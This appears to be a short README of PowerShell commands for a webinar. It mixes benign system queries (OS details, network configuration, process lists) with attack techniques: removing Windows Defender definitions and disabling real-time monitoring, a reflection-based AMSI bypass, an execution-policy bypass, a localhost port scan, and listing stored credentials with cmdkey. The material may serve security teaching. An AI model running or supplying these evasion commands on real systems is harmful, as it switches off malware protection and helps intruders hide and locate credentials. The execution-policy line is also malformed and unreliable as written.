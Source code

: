 # PowerShell Commands for Webinar
## 1. Disable Windows Defender Realtime Monitoring
This command disables Windows Defender's real-time monitoring.
```powershell
& "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
Set-MpPreference -DisableRealtimeMonitoring $true
```
---
## 2. Get Detailed OS Information
This command retrieves all properties of the operating system.
```powershell
Get-WmiObject -Class Win32_OperatingSystem | Select-Object -Property *
```
---
## 3. Network Interface Information
This command retrieves network interface configuration, including IPv4 and IPv6 addresses.
```powershell
Get-NetIPConfiguration | Select-Object -Property InterfaceAlias, IPv4Address, IPv6Address, DNServer
```
---
## 4. List Processes by CPU Usage
This command retrieves running processes and sorts them by CPU usage in descending order.
```powershell
Get-Process | Select-Object -Property ProcessName, Id, CPU | Sort-Object -Property CPU -Descending
```
---
## 5. Port Scanning (1-1024)
This command performs a basic port scan on localhost for ports 1 to 1024.
```powershell
1..1024 | ForEach-Object { $sock = New-Object System.Net.Sockets.TcpClient; $async = $sock.BeginConnect('localhost', $_, $null, $null); $wait = $async.AsyncWaitHandle.WaitOne(100, $false); if($sock.Connected) { $_ }; $sock.Close() }
```
---
## 6. Disable AMSI (Antimalware Scan Interface)
This command disables AMSI by manipulating internal PowerShell structures.
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed', 'NonPublic, Static').SetValue($null, $true)
```
---
## 7. Bypass Execution Policy Temporarily
This command temporarily bypasses the execution policy for running scripts and then reverts it.
```powershell
$policy = Get-ExecutionPolicy; Set-ExecutionPolicy -ExecutionPolicyBypass -Scope Process;
# Scriptofyourchoice;
Set-ExecutionPolicy -ExecutionPolicy $policy -Scope Process
```
---
## 8. List Stored Credentials
This command lists all stored credentials.
```powershell
cmdkey/list
```
